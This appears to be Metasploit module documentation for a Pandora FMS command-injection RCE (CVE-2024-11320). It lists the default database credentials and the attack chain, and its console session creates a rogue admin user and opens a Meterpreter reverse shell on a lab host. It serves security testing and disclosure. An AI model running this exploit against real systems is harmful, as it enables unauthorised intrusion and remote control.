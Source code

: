 ```msf
  ----         ---------------      --------  -----------
  DB_NAME      pandora              yes       Pandora database
  DB_PASSWORD  Pandor4!             yes       Pandora database admin password
  DB_PORT      3306                 yes       MySQL database port
  DB_USER      pandora              yes       Pandora database admin user
  PASSWORD     pandora              no        Pandora web admin password
  Proxies                           no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                            yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/usin
                                              g-metasploit.html
  RPORT        80                   yes       The target port (TCP)
  SSL          false                no        Negotiate SSL/TLS for outgoing connections
  TARGETURI    /pandora_console     yes       Path to the Pandora FMS application
  USERNAME     admin                no        Pandora web admin user
  VHOST                             no        HTTP server virtual host

Payload information:

Description:
  Pandora FMS is a monitoring solution that provides full observability for your organization's
  technology. This module exploits an command injection vulnerability in the LDAP authentication
  mechanism of Pandora FMS.
  You need have admin access at the Pandora FMS Web application in order to execute this RCE.
  This access can be achieved leveraging a default password vulnerability in Pandora FMS that
  allows an attacker to access the Pandora FMS MySQL database, create a new admin user and gain
  administrative access to the Pandora FMS Web application. This attack can be remotely executed
  over the WAN as long as the MySQL services are exposed to the outside world.
  This issue affects Community, Free and Enterprise editions: from v7.0NG.718 through <= v7.0NG.777.4

References:
  https://nvd.nist.gov/vuln/detail/CVE-2024-11320
  https://pandorafms.com/en/security/common-vulnerabilities-and-exposures/
  https://attackerkb.com/topics/CsDUaLijbT/cve-2024-11320

View the full module info with the info -d command.
```
### Pandora FMS v7.0NG.777 on Ubuntu 22.04 -  PHP Command target
Attack scenario: use the default database credentials (pandora:Pandor4!) to create an admin user in the application
to gain the privileges for the RCE.
```msf
msf exploit(linux/http/pandora_fms_auth_rce_cve_2024_11320) > set password xxx
password => xxx
msf exploit(linux/http/pandora_fms_auth_rce_cve_2024_11320) > set rhosts 192.168.201.6
rhosts => 192.168.201.6
msf exploit(linux/http/pandora_fms_auth_rce_cve_2024_11320) > exploit
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Pandora FMS version v7.0NG.777
[*] Trying to log in with admin credentials admin:xxx at the Pandora FMS Web application.
[*] Logging in with admin credentials failed. Trying to connect to the Pandora MySQL server.
[*] Creating new admin user with credentials cnrjq:jeQsinXxfe for access at the Pandora FMS Web application.
[*] Trying to log in with new admin credentials cnrjq:jeQsinXxfe at the Pandora FMS Web application.
[*] Succesfully authenticated at the Pandora FMS Web application.
[*] Saving admin credentials at the msf database.
[*] Executing PHP Command for php/meterpreter/reverse_tcp
[*] Sending stage (40004 bytes) to 192.168.201.6
```